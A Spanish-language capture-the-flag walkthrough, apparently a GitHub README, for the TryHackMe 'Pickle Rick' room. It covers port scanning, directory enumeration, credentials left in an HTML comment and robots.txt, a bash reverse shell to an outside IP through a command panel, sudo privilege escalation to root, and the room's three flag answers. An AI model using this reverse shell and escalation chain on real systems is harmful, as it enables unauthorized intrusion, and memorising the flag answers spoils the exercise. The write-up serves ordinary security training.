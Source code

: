 # 🥒 TryHackMe - Pickle Rick 🧪  
**Dificultad**: Fácil | **Categoría**: CTF / Privilege Escalation  
**Objetivo**: Encontrar los 3 ingredientes para la pócima de Rick y escalar a root.

---

## 🛰️ 1. Reconocimiento inicial

```bash
ping -c 1 10.10.138.4
```

La máquina responde correctamente con una latencia de ~50ms.

---

## 🔍 2. Escaneo de puertos

```bash
nmap -p- --open -sS -sC -sV --min-rate=5000 -n -vvv -Pn 10.10.138.4 -oN escaneo.txt
```

### Puertos abiertos:

| Puerto | Servicio | Versión                    |
|--------|----------|----------------------------|
| 22     | SSH      | OpenSSH 8.2p1 Ubuntu       |
| 80     | HTTP     | Apache/2.4.41 (Ubuntu)     |

---

## 🌐 3. Análisis Web

Accediendo a `http://10.10.138.4/`

En el código fuente de la página encontramos un comentario revelador:

```html
<!-- Username: R1ckRul3s -->
```

---

## 🔐 4. Enumeración de rutas

Usamos Gobuster:

```bash
gobuster dir -u http://10.10.138.4 -w /usr/share/wordlists/dirb/common.txt -x .php,.html,.txt -b 403,404 -o rutas.txt
```

Rutas interesantes:
- `/login.php`: Login portal
- `/portal.php`: Panel de comandos
- `/robots.txt`: contiene `Wubbalubbadubdub`

---

## 🛂 5. Enumeración del portal

Al acceder a `/portal.php` encontramos un **panel de comandos vulnerables a RCE**.

---

## 🐚 6. Reverse Shell

Ejecutamos una reverse shell desde el comando:

```bash
bash -c "sh -i >& /dev/tcp/10.21.203.111/4444 0>&1"
```

Se recibe la conexión como `www-data`.

---

## 🧪 7. Búsqueda de ingredientes

### 🧪 Primer ingrediente

📁 `/var/www/html/Sup3rS3cretPickl3Ingred.txt`

```bash
cat Sup3rS3cretPickl3Ingred.txt
# mr. meeseek hair
```

---

### 🧪 Segundo ingrediente

📁 `/home/rick/second ingredients`

```bash
cat 'second ingredients'
# 1 jerry tear
```

---

## 🔓 8. Escalada de privilegios

### Comprobamos sudo

```bash
sudo -l
```

Salida:

```
(ALL) NOPASSWD: ALL
```

Ejecutamos:

```bash
sudo /bin/bash
```

¡Acceso root conseguido!

---

### 🧪 Tercer ingrediente

📁 `/root/3rd.txt`

```bash
cat /root/3rd.txt
# 3rd ingredients: fleeb juice
```

---

## ✅ Conclusión

**Ingredientes encontrados:**

1. `mr. meeseek hair`
2. `jerry tear`
3. `fleeb juice`

### Lecciones clave:

- Comentarios ocultos pueden revelar credenciales.
- Un panel vulnerable con ejecución de comandos permite acceso inicial.
- Revisar `sudo -l` es crucial para detectar escaladas fáciles.